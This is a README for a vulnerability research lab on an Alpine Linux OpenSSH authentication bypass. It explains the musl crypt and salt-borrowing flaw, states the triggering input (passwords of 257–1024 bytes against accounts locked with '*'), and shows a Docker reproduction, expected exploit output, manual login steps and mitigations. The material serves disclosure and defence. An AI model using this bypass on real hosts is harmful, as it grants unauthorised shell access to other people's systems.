


# Alpine Linux OpenSSH Password Authentication Bypass (CVE-2026-123158 / "sshole") Lab & Research


This repository contains the full vulnerability research report, laboratory reproduction scripts, and proof-of-concept environment for the Alpine Linux OpenSSH authentication bypass vulnerability (**CVE-2026-123158**, CVSS 3.1 8.1 High, dubbed "sshole") disclosed on November 5, 2026.

## Research Summary

* **Vulnerability Identifier:** [CVE-2026-123158](https://nvd.nist.gov/vuln/detail/CVE-2026-123158) ([CVE.org Record](https://www.cve.org/CVERecord?id=CVE-2026-123158))
* **CVSS v3.1 Score:** **8.1 High** (`CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H`, CWE-394)
* **Discovered Issue:** Arbitrary password authentication bypass for accounts whose `/etc/shadow` password field is exactly `*`.
* **Affected Platform:** Alpine Linux (all versions with default non-PAM OpenSSH $\le$ 9.9p2).
* **Vulnerable Component:** `openssh-server-9.9_p2-r0` running on musl libc without PAM.
* **Remediation:** Fixed in Alpine `openssh-server-9.9_p2-r1` and upstream `OpenSSH 10.6p2`.
* **Exploitation Vector:** Any password of length 257 to 1024 bytes (e.g. `A*300x`).

> **Note on Input Boundary:** While the CVE description cites 256–1024 characters, empirical testing in this lab demonstrates that musl libc hashes 256-byte inputs normally (`key_len > KEY_MAX`); only inputs of **257 to 1024 bytes** return `"*"` to trigger the authentication bypass.

## Vulnerability Mechanism & Flow


*Figure: Step-by-step mechanism of CVE-2026-123158 illustrating how input lengths, OpenSSH salt borrowing, and musl error returns align into an arbitrary authentication bypass.*

The flaw results from the intersection of three components:
1. **musl libc `KEY_MAX = 256`:** When calculating SHA-512 crypt (`$6$`), musl rejects keys longer than 256 bytes and returns the literal string `"*"`.
2. **OpenSSH `pick_salt()` (CVE-2016-6210):** For accounts without valid salts (like `*`), OpenSSH borrows a salt from another account on the system with a valid `$5$` or `$6$` hash.
3. **OpenSSH String Comparison:** OpenSSH compares `crypt(password, salt)` directly with the shadow entry. Since musl returns `"*"`, `strcmp("*", "*") == 0` grants authenticated access.

## Repository Contents

```
alpine-openssh-sshole-auth-bypass/
├── article.md            # Comprehensive security research report
├── README.md             # Project overview & quick reproduction guide
├── cover.png             # Cover illustration with CVE badge & hacker icon (PNG)
├── cover.svg             # Vector source for cover
├── assets/
│   ├── evidence.png      # Terminal reproduction screenshot evidence
│   └── flow.gif          # Clean animated walkthrough of the vulnerability flow
└── lab/
    ├── server.Dockerfile # Alpine 3.21 + vulnerable openssh-server
    ├── client.Dockerfile # Exploit testing client container
    ├── sshd.conf         # Research server OpenSSH configuration
    ├── entrypoint.sh     # Container provisioning (victim:*, donor:$6$)
    ├── exploit.sh        # Automated boundary PoC (256/257/300/1024 bytes)
    ├── run.sh            # End-to-end execution script
    └── verify.sh         # A/B verification script against fixed package
```

## Quick Reproduction

Run the lab in an isolated local Docker container:

```bash
# Build and run the vulnerable server and exploit test
cd lab
./run.sh
```

### Expected Output

```text
==================================================================
 sshd: OpenSSH_9.9p2, OpenSSL 3.3.7 7 Apr 2026
 libc: /lib/ld-musl-x86_64.so.1
 PAM : 0 (0 = built without PAM)
 shadow entries:
   donor:$6$abcdefgh$OHEEfDgChDIS
   victim:*
==================================================================

--- boundary: '*' account, different password lengths ---
>>> 256 bytes (musl still hashes)              rejected  (ssh rc=255)
>>> 257 bytes (crypt() returns '*')            ACCEPTED  <-- uid=1001 user=victim
>>> 300 bytes                                  ACCEPTED  <-- uid=1001 user=victim
>>> 1024 bytes                                 ACCEPTED  <-- uid=1001 user=victim

--- controls ---
>>> victim + short wrong password              rejected  (ssh rc=255)
>>> donor + correct real password              ACCEPTED  <-- uid=1000 user=donor
```

### Manual Interactive Login

```bash
ssh -p 2222 victim@127.0.0.1
# Prompt 1: Type 300 'A' characters (A*300x) -> Permission denied (buffer clobbered)
# Prompt 2: Type 300 'A' characters (A*300x) -> Accepted! Shell access granted.
```

### Reproduction Evidence


*Terminal session verifying authentication bypass on `victim@127.0.0.1` after submitting the 300-byte password string (`A*300x`), showing successful shell access as `uid=1001(victim)`.*

### Verifying the Fix

```bash
cd lab
./verify.sh
```

## Mitigation

1. **Upgrade OpenSSH:**
   ```bash
   apk update && apk upgrade openssh-server openssh
   rc-service sshd restart
   ```
2. **Disable Password Authentication:**
   ```bash
   echo "PasswordAuthentication no" > /etc/ssh/sshd_config.d/00-no-passwords.conf
   sshd -t && rc-service sshd restart
   ```
3. **Lock Accounts with `!` instead of `*`:**
   ```bash
   passwd -l <user>
   ```

## References

- NVD Record: <https://nvd.nist.gov/vuln/detail/CVE-2026-123158>
- CVE.org Record: <https://www.cve.org/CVERecord?id=CVE-2026-123158>
- Alpine Advisory: <https://alpinelinux.org/posts/2026-11-05-openssh-password-authentication-bypass/>
- OpenSSH Release: <https://www.openssh.com/txt/release-10.6p2>
- Fix Commit: <https://github.com/openssh/openssh-portable/commit/4353fdc43ef646c43a8dda7025cc1a898caf1482>

## Disclaimer

This research was conducted for educational purposes, security analysis, and authorized vulnerability assessment. The findings and proof-of-concept materials are intended to support responsible security research and help improve software security. Any testing should be performed only on systems for which explicit authorization has been granted. This publication does not encourage unauthorized access, exploitation, or any other unlawful activity.
